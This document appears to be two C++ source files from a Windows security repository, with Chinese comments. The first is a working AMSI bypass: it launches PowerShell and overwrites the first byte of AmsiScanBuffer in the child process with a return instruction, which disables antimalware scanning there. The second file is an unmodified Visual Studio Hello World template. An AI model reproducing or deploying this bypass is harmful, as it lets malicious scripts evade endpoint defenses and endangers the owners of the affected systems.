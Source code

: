 ----------------------------------------

## File: 实现amsi绕过.cpp

```
﻿// 实现amsi绕过.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include <Windows.h>
#include <iostream>
#include <stdio.h>

int main()
{
	STARTUPINFOA si = { 0 };  //STARTUPINFOA指定创建时进程的主窗口的窗口工作站、桌面、标准句柄和外观。
	PROCESS_INFORMATION pi = { 0 }; //PROCESS_INFORMATION在创建进程时相关的数据结构之一，该结构返回有关新进程及其主线程的信息。
	si.cb = sizeof(si);				//cb结构大小
	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);  
	HMODULE hAmsi = LoadLibraryA("amsi.dll");											
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
	Sleep(500);
	DWORD oldProtect;
	char patch = 0xc3;
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char), NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}

```

----------------------------------------

## File: 导出表.cpp

```
﻿// 导出表.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>

int main()
{
    std::cout << "Hello World!\n";
}

// 运行程序: Ctrl + F5 或调试 >“开始执行(不调试)”菜单
// 调试程序: F5 或调试 >“开始调试”菜单

// 入门使用技巧: 
//   1. 使用解决方案资源管理器窗口添加/管理文件
//   2. 使用团队资源管理器窗口连接到源代码管理
//   3. 使用输出窗口查看生成输出和其他消息
//   4. 使用错误列表窗口查看错误
//   5. 转到“项目”>“添加新项”以创建新的代码文件，或转到“项目”>“添加现有项”以将现有代码文件添加到项目
//   6. 将来，若要再次打开此项目，请转到“文件”>“打开”>“项目”并选择 .sln 文件

```
